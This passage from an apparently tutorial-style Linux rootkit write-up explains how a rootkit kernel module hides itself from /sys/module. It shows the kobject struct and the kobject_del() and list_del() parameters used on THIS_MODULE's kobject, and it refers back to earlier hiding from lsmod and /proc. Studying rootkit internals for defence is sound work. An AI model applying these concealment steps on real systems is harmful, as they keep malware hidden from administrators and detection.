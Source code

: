 ```c
	              const char		*name;
	              struct list_head	entry;
  	            struct kobject		*parent;
	              struct kset		*kset;
	              struct kobj_type	*ktype;
  	            struct kernfs_node	*sd; /* sysfs directory entry */
	              struct kref		kref;
              #ifdef CONFIG_DEBUG_KOBJECT_RELEASE
	              struct delayed_work	release;
              #endif
	              unsigned int state_initialized:1;
	              unsigned int state_in_sysfs:1;
	              unsigned int state_add_uevent_sent:1;
	              unsigned int state_remove_uevent_sent:1;
	              unsigned int uevent_suppress:1;
          };
```
```
          // parameter to be inputed to kobject_del():

          &THIS_MODULE->mkobj.kobj
```
2. Delete the kobject, which is mapped by our rootkit LKM from "entry" list using `list_del()`. We will be using the same `list_del()` function that we used before to delete our rootkit LKM from _`lsmod`_ command, _`/proc/modules`_ file (procfs) and _`/proc/kallsyms`_ file (procfs), but this time with different <ins>parameter value</ins>. [source: [page-6-last-paragraph](https://theswissbay.ch/pdf/Whitepaper/Writing%20a%20simple%20rootkit%20for%20Linux%20-%20Ormi.pdf)]
```c
          // pwd: /lib/modules/5.11.0-49-generic/build/include/linux/kobject.h
          // elixir.bootlin: pattern: entry

          struct kobject {
                  ...
                  struct list_head        entry;
                  ...
          };
          ```
          ```
          //parameter to be inputed to list_del() in this scenario:
          /*
           * 1. THIS_MODULE
           * 2. mkobj
           * 3. kobj
           * 4. entry
           */
    
          &THIS_MODULE->mkobj.kobj.entry
```
1st three, (1,2,3) are just the same as previous case. Just adding `entry` in this context.
    
> ***Now we can hide our rootkit LKM from **`/sys/module/`** directory (_LKM logging directory_) !***
